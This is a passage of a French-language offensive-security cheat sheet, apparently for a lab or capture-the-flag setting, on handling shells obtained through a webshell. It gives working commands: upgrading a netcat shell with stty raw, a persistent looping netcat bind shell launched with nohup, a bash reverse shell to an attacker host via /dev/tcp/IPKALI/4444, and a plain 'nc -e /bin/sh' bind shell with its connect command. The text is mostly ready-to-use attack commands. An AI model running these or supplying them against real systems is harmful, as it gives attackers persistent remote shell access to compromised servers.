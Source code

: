 Puis demander au shell actuel de passer les codes des touches brutes au shell distant, et repasser sur le netcat (foreground)
```
stty raw -echo
fg
```

Attention: Tenter cette manip dans un browser va juste freezer le shell. Le browser modifie lui aussi les codes des touches. Ca ne marche que dans une VM.







## Webshell copain friendly

Tant que votre nc est connecté, vous bloquez un thread du serveur web.
En fonction de la configuration du serveur, il peut avoir 6, 16, 32 threads... Dont autant de nc en parallèles avant saturation.
Pour libérer le serveur pour les copains:
Dans le nc connecté, choisissez un second port et lancez un second bindshell netcat en arrière plan:
```
binshell: 
nohup bash -c 'while true; do nc -e /bin/bash -lvp 4445; done;' &

reverse shell: 
nohup bash -c 'bash -i >& /dev/tcp/IPKALI/4444 0>&1' &
```

La commande nohup va détacher le process nc du shell en cours.
Faites un Ctrl-C pour couper la connection nc, la page avec votre webshell se libère. Un autre utilisateur peut se connecter.
Lancer un nouveau nc pour vous connecter à ce nouveau bindshell.







## Netcat - Bind shell

Un bind shell est utile quand notre Kali est derrière un NAT.
Ce shell est fragile, un scan de port va le déclencher et le fermer.
Lance un shell, ouvre une socket TCP en écoute sur le port 4444, et donne accès au shell au premier qui se connecte.
```
nc -e /bin/sh -lvp 4444
```

Se connecte au netcat distant pour avoir accès au shell.
```
nc iptarget 4444
```


